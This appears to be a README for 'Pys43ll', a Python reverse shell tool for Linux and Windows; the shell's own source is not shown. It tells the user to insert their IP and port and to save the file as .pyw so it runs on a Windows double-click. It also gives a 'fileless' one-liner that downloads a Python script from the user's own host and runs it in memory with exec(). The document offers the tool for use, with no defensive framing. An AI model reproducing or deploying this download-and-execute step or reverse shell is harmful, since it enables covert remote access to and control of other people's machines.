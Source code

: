 # Pys43ll
A Python Reverse Shell that can be used on Linux and Windows.

# Remember

The use of Windows requires Python3 installed. Remember to add the IP Address and Port of your choosing. On Windows the file can be saved with .pyw to allow a double-click execution.

# How to Use

Windows: .\pys43ll.py

Linux: python3 pys43ll.py

# Fileless Approach

python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/filename.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
